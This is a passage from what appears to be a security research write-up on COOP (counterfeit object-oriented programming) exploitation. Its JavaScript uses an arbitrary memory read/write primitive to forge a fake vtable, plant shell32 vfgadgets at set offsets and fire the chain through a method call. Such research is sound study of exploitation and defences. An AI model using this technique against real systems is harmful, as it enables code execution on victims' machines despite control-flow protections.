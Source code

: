 1. The `magic` method pointer `[vtable+0x18]` will point to our ML-ARG-G.
2. The ML-ARG-G inner call vtable’s offset `[vtable+0x4c]` will point to the `CreateControlWindow` vfgadget.

```javascript
// First, we save the current this pointer, to recover it later
original_this = eba.read(magic_object);

var magic_vtable = magic_object + 0x40;

// Now, let's put a fake vptr at [magic_object]
eba.write(magic_object, magic_vtable);

// [vtable+0x18] will hold the first vfgadget that will be invoked
// It will be the ML-ARG-G we found in shell32.
eba.write(magic_vtable + 0x18, ml_arg_g);

// [vtable+0x4c] will hold the second vfgadget that will be invoked
// It will be the CreateControlWindow vfgadget we found in shell32
eba.write(magic_vtable + 0x4C, createWindow_g);
```

Now, invoking the `Magic` method will perform our COOP flow:

```javascript
eba.write(magic + 0x1c, 0x0);
eba.write(magic + 0x20, magic_object + 0x100);
var args = new Array(0x41);
Magic.call.apply(null, args);
eba.write(magic_object, original_this);
```

![Counterfeit objects in memory](/images/3coop.png)
